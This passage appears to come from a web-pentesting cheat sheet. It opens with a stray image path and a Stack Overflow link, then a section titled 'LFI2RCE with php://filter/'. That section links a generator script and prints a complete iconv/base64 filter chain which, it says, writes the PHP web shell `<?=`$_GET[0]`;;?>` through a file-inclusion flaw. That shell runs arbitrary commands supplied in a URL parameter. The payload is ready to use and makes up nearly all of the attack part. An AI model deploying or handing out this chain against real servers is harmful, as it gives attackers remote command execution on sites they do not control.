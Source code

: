 - [Stack Overflow](https://stackoverflow.com/questions/3470955/executing-a-system-command-in-haskell)

---------------------------

### LFI2RCE with php://filter/

- Characters can be injected via php://temp/ filter
- Generate php code with this [script](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
  
- Example of `<?=`$_GET[0]`;;?>` as generated by the author

        php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
